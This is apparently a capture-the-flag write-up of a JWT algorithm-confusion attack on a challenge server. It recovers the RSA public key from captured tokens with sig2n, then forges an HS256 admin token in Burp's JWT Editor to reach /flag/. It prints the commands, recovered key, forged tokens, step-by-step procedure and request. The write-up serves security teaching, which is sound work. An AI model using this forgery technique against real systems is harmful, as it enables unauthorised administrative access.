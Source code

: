 # CTFkom 03.09.2025 - Writeup Asymmetric JWT

# Objective and scope

---

The target application at `http://129.241.150.108:30005` uses a `jwt` cookie for session handling. The objective was to assess and exploit the session handling in order to forge an administrative token and reach the protected endpoint `/flag/`.

# How do Key Confusion Attacks Work

---

JSON Web Tokens encode a header, a payload, and a signature. RS256 uses an RSA private key for signing and an RSA public key for verification. HS256 uses an HMAC secret for both signing and verification. If a verifier accepts the token’s `alg` header and reuses RSA public-key material as an HMAC secret, an attacker who knows the public key can sign HS256 tokens that the server will accept as authentic. This is then called a key confusion attack. The key questions are whether the public key can be recovered, and which exact byte representation the verifier treats as the HMAC secret, because flawed implementations vary between SubjectPublicKeyInfo, PKCS#1, DER bytes, or even literal PEM text.

# Collected material

---

An RS256 JWT was observed in traffic and used as input for public-key recovery:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTc1NjkyMzkxNywiZGF0ZV9vZl9iaXJ0aCI6IiJ9.wL0y3OEdqPzEQUYhEfFgETAGuVlysnPbgf6molGDCG8FMkGUvhy24_w8O1jljJ-V5hmY2U6xjqTGtpvMgzG44g
```

When decoding the token, we see the following content inside of the JWT:

```json
{
  "alg": "RS256",
  "typ": "JWT"
}
{
  "username": "test",
  "admin": false,
  "exp": 1756923917,
  "date_of_birth": ""
}
```

The important value is the “admin” boolean, which shows the server if a user has administrative permissions to access the /flag/ endpoint.

So the goal is to forge a token that sets the “value” to `true` and have a valid expiration date and a valid signature. Since this token is using asymmetric algorithms to for signature verification, we cannot just bruteforce the secret. Usually, the first things that comes to mind is a key confusion attack. This type of attack is described at the beginning of the writeup.

Do perform such an attack, a second RS256 token with a slightly different payload was captured to improve recovery:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTc1NjkyNDAzMiwiZGF0ZV9vZl9iaXJ0aCI6IiJ9.vUsAqmHufwd7YoREteaxxx9LMPp_fNdPWV7XbWjoOn8gO7kRlz8E9s1EVbT1xetuTB0LHYXxMW2z33c9Pd4E7g
```

# Public-key recovery and initial acceptance test

---

Since the public key is not hosted publicly (or at least it’s hidden very well), we need to reconstruct the public key. PortSwigger’s `sig2n` was used to reconstruct the RSA public key and emit candidate HS256 tokens. This is the only helper command that was required:

```bash
docker run --rm -it portswigger/sig2n <token1> <token2>
```

Relevant terminal output:

```
Running command: python3 jwt_forgery.py <token1> <token2>

Found n with multiplier 1:
    Base64 encoded x509 key: LS0tLS1---[snip]---tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQo=
    Tampered JWT: eyJhbGciOiJ---[snip]---fYqUsPY
    Base64 encoded pkcs1 key: LS0---[snip]---S0VZLS0tLS0K
    Tampered JWT: eyJhbGci---[snip]---eAibOmH_zyg-w

Found n with multiplier 2:
    Base64 encoded x509 key: LS0tLS1C---[snip]---VQkxJQyBLRVktLS0tLQo=
    Tampered JWT: eyJhbGciOi---[snip]---qfsOmB_tqg
    Base64 encoded pkcs1 key: LS0tLS1CRUdJTiBSU0EgUFVCTElDIEtFWS0tLS0tCk1FZ0NRUURIeXNSeEFBNFZGdHNZVW5KRUFSc1JINDZQVmtLeWcwL0lRTW9yTk1CY01qK3A2Y0VoZEJKdmNzSDEKanE1dUpYWTJOWDQvellOeUg4djRzNW5rUzM2dEFnTUJBQUU9Ci0tLS0tRU5EIFJTQSBQVUJMSUMgS0VZLS0tLS0K
    Tampered JWT: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ICJ0ZXN0IiwgImFkbWluIjogZmFsc2UsICJleHAiOiAxNzU3MDA5ODY0LCAiZGF0ZV9vZl9iaXJ0aCI6ICIifQ.z4pUOUyrCJFInLoXXyBIPbl7_T25t5IWbB732uLCHPE
```

The script found two different multipliers, so I just tried all the tokens (Tampered JWT) and sent them to the server. The last “tampered” HS256 token was accepted by the server rather than causing a redirect, which proved algorithm confusion and indicated that the verifier reused public-key material as an HMAC secret. So the PKCS#1 RSA PUBLIC KEY PEM text bytes from the “multiplier 2” value are considered valid. This matters because the exact bytes used as the HMAC secret must match the verifier’s expectation.

# Determining the Exact Secret Bytes

---

The sig2n line labeled “Base64 encoded pkcs1 key” for multiplier 2 is the base64 of the RSA PUBLIC KEY PEM text. Decoding it yields the full `-----BEGIN RSA PUBLIC KEY-----` block with header, footer, and line breaks. The verifier treated those literal PEM bytes as the HMAC secret, not DER, not SPKI, and not x509.

# Burp Suite Exploitation Using JWT Editor

---

This attack can be performed entirely in Burp by registering the correct symmetric key and letting the extension re-sign the token. We need the JWT Editor extension in burp to perform this attack.

The following base64 value can be used in the k value in the JWT token (this is the public key that we reconstructed earlier):

```
LS0tLS1CRUdJTiBSU0EgUFVCTElDIEtFWS0tLS0tCk1FZ0NRUURIeXNSeEFBNFZGdHNZVW5KRUFSc1JINDZQVmtLeWcwL0lRTW9yTk1CY01qK3A2Y0VoZEJKdmNzSDEKanE1dUpYWTJOWDQvellOeUg4djRzNW5rUzM2dEFnTUJBQUU9Ci0tLS0tRU5EIFJTQSBQVUJMSUMgS0VZLS0tLS0K
```

In Burp Suite, the attack can now be done. Here are the exact steps to forge a token and sign it using the public key:

1. Open the JWT Editor Key**s** tab. Click New Symmetric Key. Set `kty` to `oct`. Set `k` to the public key that’s base64 encoded. Optionally set a `kid`, but this is not required. Save the key.
2. Send a request that carries the `jwt` cookie to Repeater. Select that request and open the JSON Web Token tab for the cookie value.
3. Edit the JWT header so that `alg` is `HS256` and `typ` is `JWT`.
4. Edit the payload to include the intended claims. Use at least `{"username":"test","admin":true,"exp":<fresh-epoch>,"date_of_birth":""}`. The exp can be calculated using this website [https://www.unixtimestamp.com/](https://www.unixtimestamp.com/)
5. Click **Sign** and choose the symmetric key created in the JWT Editor Keys tab. Burp replaces the signature with a valid HS256 HMAC using the registered key.
6. Send the request to `/flag/`. 

The endpoint shows a 200 status code and shows the flag. The full request and response is shown in the next chapter.

# Access to the Protected Resource and Flag

---

With the forged token set in the `jwt` cookie, `/flag/` returned HTTP 200 and the flag was present in the response. Here is the request that was being used request:

```
GET /flag/ HTTP/1.1
Host: 129.241.150.108:30005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://129.241.150.108:30005/home/
Cookie: jwt=**eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzU3MDExMTc2LCJkYXRlX29mX2JpcnRoIjoiIn0.n7ShzBoadFfV-fhkE6RvtcNWO9KBm56qXGg65iPuW_g**
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The result was a HTTP 200 with the flag in the response body. This confirms that the server validated a HS256 signature produced with the PKCS#1 PEM text secret and accepted the administrative claim.

![image.png](image.png)

The flag is:

```
CTFkom{ddaf66f1b50d425e7d68ad930ae563a}
```

# Conclusion

---

The verifier accepted the token’s `alg` header and reused RSA public-key material as an HMAC secret. The exact secret matched the decoded PKCS#1 RSA PUBLIC KEY PEM text bytes from `sig2n` multiplier 2. Constructing and signing an HS256 token with `admin: true` and a valid expiry in Burp’s JWT Editor yielded HTTP 200 on `/flag/`.

This proves that there is a key confusion vulnerability in the token verifier which can be abused to forge tokens with administrative access.